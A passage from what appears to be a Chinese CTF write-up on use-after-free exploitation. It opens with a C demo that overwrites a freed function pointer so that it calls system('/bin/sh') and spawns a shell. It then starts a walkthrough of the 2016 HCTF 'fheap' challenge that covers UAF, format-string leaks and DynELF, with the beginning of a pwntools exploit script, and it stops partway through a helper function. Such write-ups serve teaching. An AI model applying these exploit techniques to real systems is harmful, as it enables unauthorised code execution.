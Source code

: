 <pre class="prettyprint"><code class=" hljs cpp"><span class="hljs-preprocessor">#include &lt;stdio.h&gt;</span>
<span class="hljs-preprocessor">#include &lt;stdlib.h&gt;</span>
<span class="hljs-keyword">typedef</span> <span class="hljs-keyword">void</span> (*func_ptr)(<span class="hljs-keyword">char</span> *);
<span class="hljs-keyword">void</span> evil_fuc(<span class="hljs-keyword">char</span> command[])
{
system(command);
}
<span class="hljs-keyword">void</span> echo(<span class="hljs-keyword">char</span> content[])
{
<span class="hljs-built_in">printf</span>(<span class="hljs-string">"%s"</span>,content);
}
<span class="hljs-keyword">int</span> main()
{
    func_ptr *p1=(func_ptr*)<span class="hljs-built_in">malloc</span>(<span class="hljs-number">4</span>*<span class="hljs-keyword">sizeof</span>(<span class="hljs-keyword">int</span>));
    <span class="hljs-built_in">printf</span>(<span class="hljs-string">"malloc addr: %p\n"</span>,p1);
    p1[<span class="hljs-number">3</span>]=echo;
    p1[<span class="hljs-number">3</span>](<span class="hljs-string">"hello world\n"</span>);
    <span class="hljs-built_in">free</span>(p1); <span class="hljs-comment">//在这里free了p1,但并未将p1置空,导致后续可以再使用p1指针</span>
    p1[<span class="hljs-number">3</span>](<span class="hljs-string">"hello again\n"</span>); <span class="hljs-comment">//p1指针未被置空,虽然free了,但仍可使用.</span>
    func_ptr *p2=(func_ptr*)<span class="hljs-built_in">malloc</span>(<span class="hljs-number">4</span>*<span class="hljs-keyword">sizeof</span>(<span class="hljs-keyword">int</span>));<span class="hljs-comment">//malloc在free一块内存后,再次申请同样大小的指针会把刚刚释放的内存分配出来.</span>
    <span class="hljs-built_in">printf</span>(<span class="hljs-string">"malloc addr: %p\n"</span>,p2);
    <span class="hljs-built_in">printf</span>(<span class="hljs-string">"malloc addr: %p\n"</span>,p1);<span class="hljs-comment">//p2与p1指针指向的内存为同一地址</span>
    p2[<span class="hljs-number">3</span>]=evil_fuc; <span class="hljs-comment">//在这里将p1指针里面保存的echo函数指针覆盖成为了evil_func指针.</span>
    p1[<span class="hljs-number">3</span>](<span class="hljs-string">"/bin/sh"</span>);
    <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>;
}</code></pre>
<p>运行效果 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623001441464?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
最后成功获取shell <br>
具体的解释注释里面很清楚，详见注释</br></br></img></br></p>
<h1 id="0x03-2016hctf-fheap">0x03 2016HCTF fheap</h1>
<p>用了一天的时间调试程序，这里参考了FlappyPig与官方的详细题解，但是总觉的说的不够清楚，有些地方理所当然，作为小白根本看不懂。结合着自己的漏洞调试经验写出详细的分析过程，供大家参考。</p>
<h2 id="0x1-题目分析">0x1 题目分析</h2>
<p>整个题目做下来利用到了很多知识点，这里列举一下</p>
<ol>
<li>UAF 二次释放&amp; fastbin的特性</li>
<li>64位格式化字符串漏洞</li>
<li>无libc地址泄露，DynELF</li>
</ol>
<p>主要运用的就是以上三点，首先寻找UAF可执行任意函数漏洞，其次利用puts函数寻找基址，接着利用printf格式化字符串进行内存泄露，最后UAF执行system函数</p>
<h2 id="0x2-申请释放-代码">0x2 申请&amp;释放 代码</h2>
<p>在编写的时候注意，输入顺序，利用recvuntil控制输入流程</p>
<pre class="prettyprint"><code class=" hljs python">申请代码 
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">create</span><span class="hljs-params">(size,content)</span>:</span>
    p.recvuntil(<span class="hljs-string">"quit"</span>)
    p.send(<span class="hljs-string">"create "</span>)
    p.recvuntil(<span class="hljs-string">"size:"</span>)
    p.send(str(size)+<span class="hljs-string">'\n'</span>)
    p.recvuntil(<span class="hljs-string">'str:'</span>)
    p.send(content)
    p.recvuntil(<span class="hljs-string">'\n'</span>)[:-<span class="hljs-number">1</span>]
